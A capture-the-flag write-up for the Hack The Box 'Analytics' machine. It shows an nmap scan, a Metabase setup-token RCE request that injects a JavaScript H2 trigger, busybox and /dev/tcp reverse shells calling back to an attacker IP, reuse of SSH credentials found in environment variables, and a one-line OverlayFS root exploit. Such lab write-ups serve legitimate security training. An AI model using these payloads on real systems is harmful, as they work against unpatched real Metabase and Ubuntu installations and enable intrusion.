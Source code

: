 # This is a writeup for the Analytics CTF from htb labs

## Recon

#### Nmap scan "the fastest and most effective scan for CTF labs"

```
sudo nmap 10.10.11.233 --min-rate 3000 -sS -sV -sC -Pn -T5 


Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-14 11:04 BST
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
```

<!-- we got two open ports 22 for ssh and 80 for a webserver labeled "Analytical" -->

## Enum

#### this page "http://data.analytical.htb/auth/login?redirect=%2F" seems to have a vuln of severe RCE at  metabase version 0.46.6

###### when we make an inital request to this page 

![Screenshot at 2023-10-14 11-23-13](https://github.com/shanksbeard/Analytics-HTB-writeup/assets/147916074/7e627aa3-029b-405b-a996-3a3b01472c88)

<!--  it gave us a setup-token that enables us to  post our RCE payload to the api "/api/setup/validate" -->

## Exploit 1 : RCE

#### Start a netcat listener 

```nc -lnvp 4444``` <!-- or any port of your choice --> 

### Here is the payload request made to this api /api/setup/validate 
```
POST /api/setup/validate HTTP/1.1
Host: 10.10.11.233 
Content-Type: application/json

{
 "token": "put the setup token here ",
 "details": {
  "is_on_demand": false,
  "is_full_sync": false,
  "is_sample": false,
  "cache_ttl": null,
  "refingerprint": false,
  "auto_run_queries": true,
  "schedules": {},
  "details": {
   "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec(Put your RCE revshell payload just here)\n$$--=x",
   "advanced-options": false,
   "ssl": true
  },
  "name": "test",
  "engine": "h2"
 }
}
```

#### for me it seems this basic busybox revshell payload to work just fine

```busybox nc <Attacker IP add> 4444 -e sh ```  <!-- remember you can put any unstandard  port. --> 

###### we could do this trick to stabilize the revshell and also good  to replace python pty command
```
echo 'sh -i >& /dev/tcp/<Attacker IP add>/4445 0>&1' > /tmp/a.sh
bash /tmp/a.sh
```
#### after some basic enumeration got the /bin/ash users as well some ssh creds at env variables 
root:x:0:0:root:/root:/bin/ash
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
META_USER=metalytics
META_PASS=*************** <!-- to get the password practice what we have done -->

-------------------------------------------------------------------------------------------------------------------------
```
ssh metalytics@analytical.htb 
metalytics@analytical.htb's password: 
metalytics@analytics:~$ 
```
###### Great, well done !!!

<!-- the root seems to be active  -->
```
root:x:0:0:root:/root:/bin/bash
metalytics:x:1000:1000:,,,:/home/metalytics:/bin/bash
```
## Privesc:

<!-- the kernel version seems to be vuln "6.2.0" to these OverlayFS CVEs "CVE-2023-2640 CVE-2023-32629 "
# here is a little hint from the creators "overlay on /var/lib/docker/overlay2/957463a5867e5" thank you htb labs team <3
# you can check out the vuln in fully here "https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability"
-->
### here is the payload
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## just put it as command line in the shell and 
```
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```
## boom you are the root !!! you made it.
